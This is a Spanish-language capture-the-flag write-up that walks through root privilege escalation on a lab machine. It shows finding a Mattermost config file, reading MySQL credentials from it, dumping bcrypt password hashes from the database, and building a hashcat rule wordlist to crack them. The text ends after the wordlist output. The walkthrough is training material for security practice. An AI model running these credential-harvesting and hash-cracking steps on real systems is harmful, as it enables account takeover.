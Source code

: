 # Escalada de privilegios hasta el user Root

Listamos el `/etc/passwd` y grepeamos por `$sh` para los usuarios que hay en la maquina a nivel de sistema.
Encontramos al user `mattermost`
Procedemos con la busqueda:
```bash
find / -group mattermost -name *config* -type f 2>/dev/null
"cat /opt/mattermost/config/config.json"
```
 Obtenemos mucha informacion y mirando detalladamente encontramos unas claves para el servicio `mysql` 
 ```bash
 User: mmuser
 Pass: Crack_The_MM_Admin_PW`
```
Probamos a acceder al servicio `MySQL`
```bash
"maildeliverer@Delivery:~$ mysql -ummuser -p        "
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 199
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

"MariaDB [(none)]> show databases;    "
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.001 sec)

"MariaDB [(none)]> use mattermost;   "
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
"MariaDB [mattermost]> select Username,Password from Users;  "
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                      |
+----------------------------------+--------------------------------------------------------------+
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJXXXXX  |
|+----------------------------------+--------------------------------------------------------------+
10 rows in set (0.000 sec)
```
Genial Encontramos varios Hashes pero nos quedamos solo con el de root. Justo ahora podemos hacer memoria para ver lo que se nos decia en la pagina de Mattermost nada mas loguearnos
La contraseña puede ser una variante de la contraseña `"PleaseSubscribe!"`. Asique nos podemos montar un diccionario con variaciones de esta contraseña, hacemos uso de `Hascat`,  y posteriormente intentar crackearla con la 
herramienta `John The Ripper`.
```bash
# hashcat -r /usr/share/hashcat/rules/best64.rule dicc --stdout
PleaseSubscribe!
!ebircsbuSesaelP
PLEASESUBSCRIBE!
```